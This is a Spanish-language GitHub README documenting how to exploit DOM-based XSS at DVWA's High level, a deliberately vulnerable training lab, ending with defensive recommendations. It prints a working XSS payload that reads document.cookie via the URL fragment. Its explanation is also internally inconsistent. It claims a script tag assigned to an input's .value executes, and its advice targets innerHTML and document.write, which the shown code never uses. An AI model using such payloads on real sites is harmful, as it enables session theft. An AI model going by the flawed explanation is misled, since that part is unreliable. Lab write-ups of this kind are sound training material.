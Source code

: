 # 🧠 DVWA - XSS (DOM-Based) - High Level

En este repositorio se documenta cómo explotar una vulnerabilidad de **Cross-Site Scripting basada en el DOM (DOM-Based XSS)** en el nivel **High** de **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Ejecutar código JavaScript en el navegador del usuario utilizando una vulnerabilidad basada en la manipulación del **Document Object Model (DOM)**, sin intervención del servidor.

> 🔍 Este tipo de XSS no se refleja en la respuesta del servidor, sino que se ejecuta directamente en el navegador usando JavaScript del lado cliente.

---

## 🧠 ¿Qué es DOM-Based XSS?

En DOM-Based XSS, el **navegador** interpreta valores del `document.location`, `document.referrer` o `document.URL`, y los **inyecta directamente** en el HTML sin validación ni sanitización. El atacante aprovecha esto para ejecutar scripts maliciosos.

---

## 🔧 Nivel High en DVWA

### Código JavaScript vulnerable:

```javascript
var pos = document.URL.indexOf("default=") + 8;
var default_value = document.URL.substring(pos);
document.getElementById("default_text").value = default_value;
```

- El valor tras `default=` en la URL es leído e inyectado directamente en el DOM.
- No hay filtrado, escapado ni validación de los datos insertados.

---

## 🛠 Paso a paso para explotar (High Level)

1. Accede al módulo DOM XSS:
```
http://127.0.0.1/dvwa/vulnerabilities/xss_d/
```

### 2. Añade el parámetro `default` con un payload XSS en la URL:

```html
http://127.0.0.1/dvwa/vulnerabilities/xss_d/#?default=<script>alert(document.cookie)</script>
```

3. Resultado

Al cargar la página con ese hash fragment (`#?default=`), el navegador ejecutará directamente el script:

```javascript
alert(document.cookie);
```

![Script_Navegador](assets/XSSD_Script.png) 

Esto mostrará una alerta con la cookie actual, confirmando que la inyección fue exitosa.

### 4. Confirmación en Burp Suite

En la pestaña **HTTP History** de Burp Suite, se puede observar que **no se envía el script al servidor**, ya que el ataque se ejecuta totalmente en el lado cliente. La URL vista es:

```
GET /dvwa/vulnerabilities/xss_d/ HTTP/1.1
```

![BurpResultado](assets/XSSD_BurpResultado.png) 

El payload está **en el fragmento de la URL** (`#`), y no es enviado en la petición HTTP, lo cual es característico de los ataques DOM-Based.

---

## 🔍 Por qué funciona

- El script vulnerable lee directamente el contenido del fragmento de la URL (`#`) con `document.URL`.
- El valor es inyectado sin sanitización dentro del atributo `value` del input.
- Si se inyecta una etiqueta `<script>`, esta se interpreta y ejecuta.

---

## 🛡️ Recomendaciones de seguridad

- **Evitar el uso de `innerHTML` y `document.write()`** para datos dinámicos.
- Utilizar `textContent` para mostrar texto en lugar de `innerHTML`.
- Escapar correctamente los caracteres especiales (`<`, `>`, `'`, `"`) antes de insertarlos en el DOM.
- Utilizar Content Security Policy (CSP) para prevenir ejecución de scripts inyectados.
- Usar frameworks que integren protección contra XSS, como React, Vue o Angular.

---

## 📚 Recursos

- ▶️ [Vídeo: DVWA DOM-Based XSS (CryptoCat)](https://www.youtube.com/watch?v=X87Ubv-qDm4&list=PLHUKi1UlEgOJLPSFZaFKMoexpM6qhOb4Q&index=11)
- 📝 [Writeup de Aftab Sama - DOM-Based XSS](https://aftabsama.com/writeups/dvwa/dom-based-cross-site-scripting-xss/)
- 📖 [OWASP - DOM-Based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS)
